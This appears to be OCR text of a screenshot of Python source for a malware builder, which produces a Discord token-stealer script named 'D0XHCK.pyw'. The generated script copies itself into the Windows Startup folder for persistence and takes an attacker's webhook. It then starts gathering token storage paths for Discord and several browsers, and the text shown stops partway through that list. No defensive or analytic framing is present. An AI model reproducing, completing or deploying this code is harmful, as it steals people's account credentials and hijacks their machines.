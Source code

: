 from os import name, chdir, rmdir, mkdir, rename, listdir
from os.path import isdir
from pystyle import Anime, Colorate, Colors, Center, System, Write
from random import choice, shuffle, randint
from binascii import hexlify
from shutil import rmtree



class Make:
    def riot(webhook: str, ping: bool) -> str:
        return r"""from urllib.request import urlopen, Request
from urllib.error import HTTPError
from os import getenv, listdir, startfile
from os.path import isdir, isfile
from re import findall

from json import loads, dumps
from shutil import copy



path = "%s/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/D0XHCK.pyw" % getenv("userprofile")


if not isfile(path):
    copy(__file__, path)
    startfile(path)
    exit()
elif __file__.replace('\\', '/') != path.replace('\\', '/'):
    exit()


webhook = '""" + webhook + r"""'
pingme = """ + str(ping) + r"""


class Discord:

    def setheaders(token: str = None) -> dict:
        headers = {'content-type': 'application/json', 'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11'}
        if token:
            headers['authorization'] = token
        return headers

    def get_tokens() -> list:
        tokens = []
        LOCAL = getenv("LOCALAPPDATA")
        ROAMING = getenv("APPDATA")
        PATHS = {
            "Discord": ROAMING + "\\Discord",
            "Discord Canary": ROAMING + "\\discordcanary",
            "Discord PTB": ROAMING + "\\discordptb",
            "Google Chrome": LOCAL + "\\Google\\Chrome\\User Data\\Default",
            "Opera": ROAMING + "\\Opera Software\\Opera Stable",
            "Brave": LOCAL + "\\BraveSoftware\\Brave-Browser\\User Data\\Default",
            "Yandex": LOCAL + "\\Yandex\\YandexBrowser\\User Data\\Default"
        }
